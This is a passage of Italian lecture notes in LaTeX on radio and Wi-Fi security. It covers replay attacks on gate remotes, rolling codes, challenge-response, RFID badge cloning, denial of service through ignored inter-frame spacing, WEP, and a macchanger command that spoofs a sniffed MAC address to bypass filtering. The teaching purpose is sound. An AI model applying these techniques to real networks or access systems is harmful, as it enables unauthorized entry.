    
\includegraphics[width=.8\linewidth]{res/FHSS.png}
    \caption{}
\end{figure}

\subsection{Eavesdropping}
Anche utilizzando FHSS non verrà garantita la sicurezza del segnale, infatti eavesdropping e sniffing sono perpetrabili molto facilmente sulla trasmissione radio, sapendo il seed del PRNG che genera la sequenza di portanti potremo risalire alla sequenza stessa, basterà conoscere la modulazione e il protocollo utilizzato per effettuare l'attacco.
Esistono anche attacchi praticabili senza conoscere ne la modulazione ne il protocollo, questo prende io nome di \textbf{Reply Attack}. Sarà sufficiente catturare una porzione di segnali (spettro) e ritrasmetterle così come catturate.
Questo attacco non è protetto da meccanismi di integrità e confidenzialità, infatti è possibile integrare il messaggio seppur cifrato con altre informazioni ed esser considerato valido lo stesso.

Questo meccanismo di attacco viene utilizzato spesso dai cancelli automatici, catturato il treno di impulsi OOK sulla giusta portante sarà possibile reinviare il messaggio al cancello automatico per farlo aprire. Questa metodologia non prevede la comprensione del contenuto del messaggio inviato.

\subsection{Rolling Code}
Le automobili e i cancelli automatici più sicuri implementano un sistema di \textbf{Rolling Code};
\begin{itemize}
    \item il trasmettitore seleziona un codice basandosi su un PRNG e lo invia;
    \item il trasmettitore seleziona il codice successivo, basandosi sul PRNG;
    \item il ricevitore controlla che il codice ricevuto sia consistente con il suo PRNG, nel caso lo sia effettua l'operazione e fa avanzare il PRNG.
\end{itemize}
Un problema però del Rolling Code si presenta nel momento in cui il codice viene trasmesso e non ricevuto, questo porta a un disallineamento del PRNG e conseguentemente la non effettuazione del comando. Questa cosa si può risolvere facendo controllare al ricevitore non più un PRNG singolo ma una finestra nella quale il segnale sia valido, facendo poi avanzare la finestra di conseguenza. Questa cosa non risolve comunque l'attacco Reply ma lo rallenta rendendolo meno efficiente, obbligando l'attaccante a dover catturare più codici dal trasmettitore.

\subsection{Challenge and Response}
Il problema di questi metodi è la mancanza di un canale di ritorno. Infatti questi cancelli o macchine non dialogano con il trasmettitore ma si limitano a ricevere i comandi e ad eseguirli.
Tramite dei transceiver è possibile effettuare quello che si chiama \textbf{Challenge and Response}, presente anche in vari protocolli applicativi dunziona nel seguente modo:
\begin{itemize}
    \item L’autenticando (trasmettitore nei casi precedenti) richiede di accedere al sistema tramite un messaggio.
    \item L’autenticatore (cancello o macchina) genera un numero random (nonce) e lo invia all’autenticando.
    \item L’autenticando cifra il nonce inviato e reinvia il valore cifrato all’autenticatore.
    \item L’autenticatore decifra il valore cifrato e valida o meno l’autenticazione.
\end{itemize}
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.8\linewidth]{res/challenge_and_response.png}
    \caption{}
\end{figure}

\subsection{Cifratura}
Ovviamente la cifratura può essere applicata, oltre che ai meccanismi di autenticazione, anche per mantenere la confidenzialità e l'integrità dei dati in transito. Generalmente nelle radiotrasmissioni questa viene implementata tramite cifrari a blocchi (e.g. AES) o a flusso (e.g. Kasumi per il 4G).

\subsection{RFID}
Un altro sistema di autenticazione radio è l'RFID (Radio Frequency Identification) normalemente utilizzato per autenticare tramite bdage (e.g. Unibo), telefono o portachiavi.
Ad esempio i badge Unibo utilizzano una tecnologia chiamata EM410X, questa prevede un ID interno univoco e non sovrascrivibile assegnato dal database Unibo. In questo modo i portali in cui si richiede l'autenticazione effettueranno una ricerca nel database per controllare se l'account è effettivamente autorizzato ad accedere a un determinato varco.


\subsubsection{Cloning}
\textbf{I badge EM410X vengono venduti senza la possibilità di modificare l'ID associato, come si può aggirare questa protezione?}

Per aggirare questa protezione vi sono due metodi. Comprare un badge libero, oppure se la prima opzione non è percorribile, in assenza di meccanismi crittografici è sempre possibile spacciarsi per un badge con un transceiver RFID.

\section{IEEE 802.11 (Wi-Fi)}

\subsection{Introduzione}
Una delle comunicazioni radio più influenti nel mondo è senza ombra di dubbio lo standard \textbf{IEEE 802.11}, comunemente chiamato Wi-Fi.
Standard pensato per creare reti locali interoperabili con reti \textbf{Ethernet}.

\subsection{Layer Fisico}
Lo standard è diviso in altri sotto standard, e.g. IEEE 802.11g per le reti 2.4GHz o
IEEE 802.11ac per le reti operanti nella banda dei 5GHz, a seconda dello standard di afferenza il layer fisico alla base e la  modulazione può avere variazioni (per accesso al canale principalmente).
A livello fisico non vengono poste protezioni normalmente.
Essendo lo standard Wi-Fi basato anch'esso sulle onde radio, le onde propagate sono anch'esse sensibili a collisioni, per questo motivo avremo bisogno di un protocollo di accesso al canale tra i dispositivi in modo da risolvere eventuali collisioni.

Inoltre non è sempre possibile vedere tutti i nodi, il punto d'accesso normalmente ha visibilità in tutta la rete (se singolo), al contrario i singoli nodi no. Questo problema prende il nome di \textbf{Terminale Nascosto}.

\subsection{IFS (inter frame space)}

Il problema delle collisioni può essere mitigato accorgendosi della sua presenza e aspettando un tempo random prima di ritrasmettere il messaggio. Il protocollo prevede quindi degli "spazi" di silenzio che dovranno essere rispettati per evitare le collisioni. La gestione di questi spazi è particolarmente complessa con diverse classificazioni (e.g. spazi che solo l'access point dovrà attendere, spazi dedicati ai client ecc.) questi spazi prendono il nome di \textbf{}IFS (inter frame space).
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.8\linewidth]{res/IFS.png}
    \caption{}
\end{figure}

\subsection{Denial of Service}
\textbf{Domanda:} Cosa succede se qualcuno non rispetta lo spazio di silenzio successivo a una collisione e non aspetta nessun IFS?

Perla sempre e solo lui.

\textbf{Domanda:} Cosa succede se due terminali non rispettano lo spazio di silenzio successivo a una
collisione e non aspettano nessun IFS?

Nessuno può più parlare!

\subsection{Sicurezza delle reti}

Un primo meccanismo di sicurezza, se così si può parlare, è nascondere il nome della rete, ciò obbliga gli hosts che si vogliono connettere di sapere a priori il nome della rete. Questa meccanismo non è comunque considerabile sicuro (security by obscurity).
Al livello 2, i terminali IEEE 802.11 utilizzano degli indirizzi Mac, esattamente come le
schede di rete Ethernet.
Un altro meccanismo di sicurezza implementabile è mediante l'utilizzo degli indirizzi mac, abilitando l'accesso alla rete solo a ad alcuni dispositivi, ciò comporta però il vincolo della rete solo a quei determinati dispositivi. Il problema di questo approccio, sempre security by obscurity, è che anche se la rete avrà un accesso limitato solo da parte di quei dispositivi, l'indirizzo mac è inviato in chiaro nel pacchetto, facilmente reperibile analizzando il traffico. Sarà quindi possibile effettuare facilmente uno “spoofing” sulla rete successivamente a una fase di sniffing per scoprire l'indirizzo mac di un host e utilizzarlo per connettersi.

\begin{lstlisting}[language=bash]
    command:
    macchanger -m 11.22.33.44.55.66 virbr0

    output: 
    Current MAC: 52:54:00:b7:9a:84 (unknow)
    Permanent MAC: 00:00:00:00:00:00 (XEROX CORPORATION)
\end{lstlisting}

L' autenticazione della rete e la confidenzialità per sistemi di questo tipo sono fondamentali, in quanto per fare eavesdropping non è richiesto il man in the middle.
In una rete aperta queste informazioni viaggiano tutte in chiaro rendendo possibile la lettura da chiunque, per questo motivo si mettono in atto sistemi di crittografici atti a proteggere le reti (cifrari).
Nonostante questi meccanismi di cifratura e accesso alla rete, lo standar prevede che determinati messaggi siano inviati in chiaro, senza nessun meccanismo di confidenzialità o anti replay (e.g. lo standar prevede che esista un messaggio di "disassociazione" a una rete, con questo messaggio
è possibile far sì che un terminale tolga l’associazione con un determinato access point).

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.4\linewidth]{res/IEEE80211.png}
    \caption{}
\end{figure}

\subsection{WEP (Wired Equivalent Privacy)}
La prima forma di sicurezza pensata per le reti Wi-Fi è stata la \textbf{WEP (Wired Equivalent Privacy)}, ritenuto ormai non più sicuro, questo protocollo presenta due modalità:
\begin{itemize}
    \item Shared key;
    \item Open System.
\end{itemize}

Nella prima modalità, \textbf{Shared Key}, la possessione della chiave da parte dei client viene dimostrata attraverso un sistema di challenge and response, questa modalià è ormai considerata danno in quanto facilmente attaccabile attraverso attacchi di known plaintext (KPA) ricavando facilmente la chiave da tutte le autenticazioni.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/WEP_SharedKey.png}
    \caption{}
\end{figure}
\clearpage

Nella seconda modalità, \textbf{Open System}, il richiedente è già a conoscenza del segreto comune, ovvero la chiave condivisa, altrimenti non sarebbe in grado di decifrare i pacchetti cifrati
provenienti dall’access point.

\begin{figure}[h!]
    \centering
